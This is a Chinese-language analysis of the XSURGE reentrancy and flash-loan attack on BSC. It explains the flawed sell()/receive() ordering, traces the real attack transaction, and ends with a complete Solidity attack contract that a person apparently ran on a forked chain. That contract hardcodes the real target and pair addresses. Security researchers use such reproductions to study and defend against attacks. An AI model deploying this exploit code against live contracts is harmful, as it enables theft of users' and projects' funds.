## 概述
---

上周8 月 17 日,BSC上的XSURGE被攻击。
攻击者利用`闪电贷+重入攻击`反复低买高卖，
导致项目损失约500万美金。

本文尝试对漏洞原理进行分析，并搭建环境完整复现整个攻击流程。

---
### 问题代码


* `sell()` 函数中存在Low-level-call函数调用,虽然使用了`nonReentrant()`， 但无法防御其他函数被异常调用的攻击场景

* 这里的卖出逻辑在顺序上有误，BNB已经被返回给用户，而`_totalSupply`还未被更改
* 而`Surge`的价格由该合约地址的`BNB`余额和`_totalSupply`计算而来



* 既然有`sell()` 函数， 那是不是应该有`buy()`函数呢？并没有，直到我发现了`purchase()`


* 好吧，是我词汇量太差了


* `purchase()`函数在`receive()`中触发


* 在`Solidity 0.6.0`之后的版本中，无名函数被分化成了`fallback()`和`receive()` 

> 一个合约只能有一个receive函数，该函数不能有参数和返回值，需设置为external，payable；

> 当该合约收到BNB但并未被调用任何函数，未接受任何数据，receive函数将被触发；

* 也就是说我们可以通过直接向合约转账的方式购买`Surge`


> 该合约代码中，处处显露着开发者抖的小机灵，字里行间写满着`不规范`。
> 项目方直接在Token合约中提供了流动性。
> 连在DEX上提供交易对的步骤都可以省略，土狗的气息扑面而来。


---
## 事件分析


* 攻击合约
```
0x59c686272e6f11dC8701A162F938fb085D940ad3
```

* 攻击交易

```
0x7e2a6ec08464e8e0118368cb933dc64ed9ce36445ecf9c49cacb970ea78531d2
```



* 被攻击合约同时也是SurgeToekn合约地址

```
0xE1E1Aa58983F6b8eE8E4eCD206ceA6578F036c21
```


#### 攻击流程


* 第一步 从Pancake 通过`flashSwap`借出 10000 个WBNB

> 由于`PancakeSwap` 借鉴了`Uniswap V2`的代码,所以同样拥有`flashSwap`的功能

> 虽然`Pancake`的官方文档并没有提及这一功能,但不代表它没有

> 显然，`PancakeSwap`上的`flashSwap`调用方法与`Uniswap V2`也没有区别


[https://docs.uniswap.org/protocol/V2/guides/smart-contract-integration/using-flash-swaps]


> 


* 第二步 把10000个WBNB换成10000个BNB

> 如果`WBNB`和`WETH10`一样提供`flashMint`就更方便了


* 循环攻击SurgeToken合约(共6次)



* 调用WBNB的`Deposit`,把赚到的`22191`个BNB存入，换成等额的`WBNB`



* 调用WBNB的`transfer`,把`10030`个WBNB归还给Pancake



* 调用WBNB合约的`Withdrawal`,把`12161`个WBNB取出,完成攻击




---
## 复现方法

* 攻击发生在高度为`10087724`的块上，所以同样我们选择稍早的块`10087723`去Fork。

* 在编写攻击代码的过程中，我尝试用`solidity 0.8.0`高版本去还原攻击者的全部流程。

* 要注意的是，在` receive()`函数中要区分向攻击合约发送`BNB`的地址是来自`WBNB`合约还是`SurgeToken`合约

* 因为攻击流程中，`WBNB`也会向攻击合约发送`BNB`，此时不应该触发攻击逻辑。

```
receive() external payable {
    // 如果转账地址为SurgerToken，且循环次数不满6次，则触发攻击逻辑
    if(msg.sender == Surge_Address && time < 6){

        // 此时SurgeToken的TotalSupply还未更改
        // 而卖出操作返还的BNB已经打回了攻击合约账户
        // 通过重入，强行购买，就可以用更低的价格购买Surge
        (bool buy_successful,) = payable(Surge_Address).call{value: address(this).balance, gas: 40000}("");
        time++;
}
```

* 而在调用`PancakeSwap`的`FlashSwap`功能处，为了不引入外部文件，我并没有选择套利者通用的代码模板， 而是自己写了简陋的`interface`，把`Pair`地址写死，而不是去`PancakeFactory`上查询，在已知`Token0`和`Token1`的情况下，也没有加入校验的逻辑。终于完成了对该功能的最小化实现。

* 完整攻击合约代码

```
// SPDX-License-Identifier: Apache-2.0
pragma solidity =0.8.0;

interface IpancakePair{
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
    
    function token0() external view returns (address);
    function token1() external view returns (address);
    
}

interface WBNB {

    function deposit() payable external;
    function withdraw(uint wad) external;
    function balanceOf(address account) external view returns (uint);
    function transfer(address recipient, uint amount) external returns (bool);
}


interface Token {
    function balanceOf(address account) external view returns (uint);
    function transfer(address recipient, uint amount) external returns (bool);
}

interface Surge{
    function sell(uint256 tokenAmount) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external  returns (bool);
}


contract  test{
    
    address private constant cake_Address = 0x0E09FaBB73Bd3Ade0a17ECC321fD13a19e81cE82;
    
    address private constant WBNB_Address = 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c;
    
    address private constant Pancake_Pair_Address = 0x0eD7e52944161450477ee417DE9Cd3a859b14fD0;
    
    address public constant Surge_Address = 0xE1E1Aa58983F6b8eE8E4eCD206ceA6578F036c21;
    
    // 这里填你自己的测试地址
    address public wallet = 0x8F14c19ed3d592039D2F6aD372bd809228369D77;
    
    uint8 public time = 0;
    
    
    
    function Attack()external {
    
        // Brrow 10000 WBNB
        bytes memory data = abi.encode(WBNB_Address, 10000*1e18);
        
        IpancakePair(Pancake_Pair_Address).swap(0,10000*1e18,address(this),data);
    
    }
    
    function pancakeCall(address sender, uint amount0, uint amount1, bytes calldata data) external{

        //把WBNB换成BNB
        WBNB(WBNB_Address).withdraw(WBNB(WBNB_Address).balanceOf(address(this)));
        
        // Buy
        (bool buy_successful,) = payable(Surge_Address).call{value: address(this).balance, gas: 40000}("");
        
        //循环6次
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        Surge(Surge_Address).sell(Surge(Surge_Address).balanceOf(address(this)));
        
        //把所有BNB换成WBNB
        WBNB(WBNB_Address).deposit{value: address(this).balance}();

        //还给PancakeSwap 10030个WBNB
        Token(WBNB_Address).transfer(Pancake_Pair_Address, 10030*1e18);
        WBNB(WBNB_Address).transfer(wallet,WBNB(WBNB_Address).balanceOf(address(this)));
    }
    
    

    receive() external payable {
        
        if(msg.sender == Surge_Address && time < 6){
        
            (bool buy_successful,) = payable(Surge_Address).call{value: address(this).balance, gas: 40000}("");

            time++;

        }
    }
    
}

```

* 攻击前的Metamask钱包余额


* 部署合约 点击Attack



* 攻击完成后地址上多了11869个WBNB
(本来应该还给Pancake 10030个WBNB的，代码写错了还了10300个...) 


